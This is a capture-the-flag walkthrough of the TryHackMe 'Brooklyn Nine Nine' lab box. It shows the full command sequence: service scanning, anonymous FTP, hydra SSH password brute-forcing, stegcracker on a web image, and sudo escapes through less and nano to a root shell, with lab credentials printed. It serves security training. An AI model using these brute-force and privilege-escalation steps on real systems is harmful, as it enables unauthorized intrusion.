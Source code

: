 ```yaml
---
clayout: ctf
title: Brooklyn Nine Nine
type: TryHackMe
date: 2025-08-30
level: Easy
icon: /ctf/tryhackme/brooklyn-nine-nine/icon-room.png
image: /ctf/tryhackme/brooklyn-nine-nine/icon-room.png
banner: /ctf/tryhackme/brooklyn-nine-nine/banner.png
description: This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box. If you find more dm me in discord at Fsociety2006.
ctf-link: https://tryhackme.com/room/brooklynninenine
---
```


## Challenge Overview

The target machine exposes multiple services, including FTP (with anonymous login), SSH, and HTTP. Enumeration revealed weak credentials and hidden information within an image file, ultimately leading to multiple privilege escalation paths.

## Enumeration

### Nmap Scan

We can start by running a `nmap` scan to enumerate the services running on the target machine.

```bash
nmap -A -oN nmap.txt 10.10.131.210
```

**Scan results:**

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
```

**Key findings:**

* **FTP**: Anonymous access enabled.
* **SSH**: OpenSSH 7.6p1.
* **HTTP**: Apache 2.4.29 with a basic HTML page.

### FTP Enumeration

The anonymous login is enabled on the FTP service.

```bash
ftp 10.10.131.210
```

Listing files reveals `note_to_jake.txt`:

```text
From Amy,

Jake please change your password. 
It is too weak and holt will be mad if someone hacks into the nine nine
```

This suggests two valid usernames: **jake**, **holt** and **amy**.

## Initial Access

### Path 1: SSH Brute Force

Given the hint about weak passwords, we can try to brute-force the password of the user `jake` using SSH.

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.131.210 ssh
```

**Result:**

```bash
[22][ssh] host: 10.10.131.210   login: jake   password: 987654321
```

We can now login to the user `jake` using SSH.

```bash
ssh jake@10.10.131.210
jake@brookly_nine_nine:~$ id
uid=1000(jake) gid=1000(jake) groups=1000(jake)
```

### Path 2: Web + Steganography

The HTTP service displays a static page with the following HTML comment:

```html
<!-- Have you ever heard of steganography? -->
```

Download the background image `brooklyn99.jpg` for analysis.

Using `stegcracker`:

```bash
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt
```

**Result:**

```bash
Successfully cracked file with password: admin
Your file has been written to: brooklyn99.jpg.out
```

Extracted credentials:

```text
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

SSH access as `holt`:

```bash
ssh holt@10.10.131.210
holt@brookly_nine_nine:~$ id
uid=1002(holt) gid=1002(holt) groups=1002(holt)
```

> [!NOTE] User flag
> `/home/holt/user.txt`

## Privilege Escalation

### Path 1: Sudo Misconfiguration (`less` as jake)

Checking `sudo` rights for `jake`:

```bash
sudo -l
```

**Output:**

```bash
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

According to [GTFOBins](https://gtfobins.github.io/gtfobins/less/#sudo), this can be abused to spawn a shell:

```bash
sudo less /etc/profile
!/bin/sh
```

We can now run the command to get root access:

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```

### Path 2: Sudo Misconfiguration (`nano` as holt)

Checking `sudo` rights for `holt`:

```bash
sudo -l
```

**Output:**

```bash
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

As shown on [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo), `nano` can also be leveraged to escape into a root shell:

```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

We can now run the command to get root access:

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```

> [!NOTE] Root flag
> `/root/root.txt`
